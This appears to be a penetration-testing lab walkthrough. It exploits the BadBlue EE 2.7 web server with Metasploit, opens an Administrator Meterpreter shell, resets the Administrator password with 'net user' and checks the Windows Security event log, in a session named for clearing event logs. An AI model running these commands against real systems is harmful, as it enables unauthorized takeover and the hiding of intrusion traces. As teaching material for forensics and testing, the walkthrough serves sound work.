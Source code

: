 ```
service postgresql start && msfconsole -q
workspace -a Clearev # Clear Event logs
setg RHOSTS 10.2.27.188
search badblue
use exploit/windows/http/badblue_passthru
show options
set target BadBlue\ EE\ 2.7\ Universal
exploit
```

Perform local system enumeration.

```
meterpreter > sysinfo
Meterpreter : x86/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

We currently have administrative privileges. You do need elevated privileges in order to clear the Windows Event Log.

We head over to the target machine.

Search: event Viewer

The current clock is 10:05 PM.

`Windows Logs->Security`

The last security log was added here at 10:02.

It looks like an account was logged off.

Nothing has been logged here after 10:02. There's nothing that has been logged in regards to anything that we've done after we've gained access.

Open up a shell session on the target and get a command prompt.

Change the password for the Administrator user.

```
meterpreter > shell

C:\Program Files (x86)\Badblue\EE>net user administrator Password_123321
```

Let's see whether that was logged.

`Windows Logs->Security`: Load up Security Events.

Date and Time: 10:07:06 PM, Task Category: User Account Management.

It's going to tell you a user account was changed. The changed attributes are the SAM Account Name. And as a forensic investigator, this information is very important.

If we click on the latest one, you can see that An attempt was made to reset an account's password. That's the latest event log. And this just comfirms that the password was changed. All our actions are being logged.
